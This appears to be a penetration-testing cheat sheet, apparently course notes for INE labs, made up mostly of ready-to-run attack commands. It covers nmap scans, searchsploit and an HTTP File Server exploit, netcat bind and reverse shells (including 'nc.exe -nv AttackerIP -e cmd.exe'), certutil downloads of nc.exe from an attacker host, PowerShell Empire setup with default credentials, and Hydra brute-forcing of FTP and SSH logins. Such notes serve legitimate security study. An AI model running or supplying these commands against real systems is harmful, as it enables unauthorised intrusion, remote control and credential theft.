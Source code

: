 <h2>Banner Grabbing</h2>
An information gathering technique used by pen testers to enum info regarding the target OS and services running on open ports.

```
nmap -sC -sV -O -T3 ip -oX output.xml
```

```
nmap -sV --script=banner 192.8.94.3
```

```
nc 192.8.94.3 22
```

```
nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.152.25.3
```

```
ls -al /usr/share/nmap/scripts | grep vuln
```


`www.packetstormsecurity.com`
`rapid7`
`googlehacking database `

```
searchsploit vsftpd
```

```
searchsploit -t vsftpd
```

Command to copy the exploit into your current working directory
```
searchsploit -m /PATH
```

commands can be used to display the Exploit-db URL instead of the EDBID?
```
searchsploit -w vsftdp
```

<h2>Fixing Exploitation</h2>
```
searchsploit HTTP File Server 2.3
```
```
searchsploit -m 39161
```
```
vim 39161.py
```
```
cp /usr/share/windows-resources/binaries/nc.exe /root/Desktop/
```
```
python -m SimpleHTTPServer 80
```
```
nc -nvlp 1234
```
```
python 39161.py demo.ine.local 80
```

<h2>Bind & Reverse Shell </h2>

TCP
```
nc -nv ip port
```

UDP
```
nc -nvu ip port 
```

Listen
```
nc -nlvp 13444  
```
Windows:
```
nc.exe -nv ip port
```

Receiver:
```
nc -nlvp Port > text.txt
```

Sender:
```
nc -nv <ReceiverIP> Port < test.txt 
```


<h3>Bind Shell</h3>
Disadvantage: Need to Setup In Client Machine.

Netcat Client(Attacker) ------------------> Netcat Listerner(Target) {cmd.exe}{/bin/bash}

Target:
```
certutil -urlcache -split -f https://AttackerIP/nc.exe nc.exe
```

```
certutil -urlcache -f http://10.10.31.2/nc.exe nc.exe
```

```
nc.exe -nlvp Port -e cmd.exe
```

Attacker:
```
nc -nv TargetIP Port

whoami
dir
```


if Attacker machine is windows  and target is linux Kali
Target:
```
nc -nlvp port -c /bin/bash
```

Attacker:
```
nc.exe -nv TargetIP Port

ls
id
```

<h3> Reverse Shell </h3>
Advantage: no NEED to setup in Client Machine.

Netcat Listerner(Attacker) <------------------------- Netcat Client(Target)

Attacker:
```
nc -nlvp 1234
```

Target:
```
nc.exe -nv AttackerIP -e cmd.exe
```

This has a alternative of using powershell or any other command.

<h2>Reverse Shell Cheetsheet </h2>

```
https://github.com/swisskyrepo/PayloadsAllTheThings
```

```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```

```
www.revshells.com
```

<h3>Exploitation Frameworks</h3>

<h4> MSF Framework </h4>

<h4> PowerShell Empire </h4>
```
	sudo apt-get update && sudo apt-get install powershell-empire starkiller -y 
```


Now we start backend of powershell empire
```
sudo powershell-empire server
```

Server>

```
sudo powershell-empire client
```

(Empire) >

```
listerns

agents

help

intract <machineName>
```
agents - no of machines compramised

open starkill in GUI

username : empireadmin
password : password123

https://www.youtube.com/watch?v=Mif2KyhA6I4&t=41s

<h2> Windows Exploitation </h2>

```
nmap -T4 -PA -sC -sV -p 1-10000 demo.ine.local
```

```
nmap -sV -sC -p 445 demo.ine.local
```

```
msfconsole
use /auxiliary/scanner/smb/smb_version
set RHOSTS demo.ine.local
run
```

<h3> Microsoft IIS FTP </h3>
```
nmap -sV -p 21 --script=anon 192.168.1.1
```

```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt demo.ine.local ftp
```

<h3> OpenSSH </h3>
```
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt demo.ine.local ssh
```

`ssh administrator@demo.ine.local`
`ssh login as administrator is disabled as a good practice.`

```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set USERNAME 
set PASSWORD
set RHOSTS
```

`this msf generates us a session to connect to demo.ine.local as administrator.`
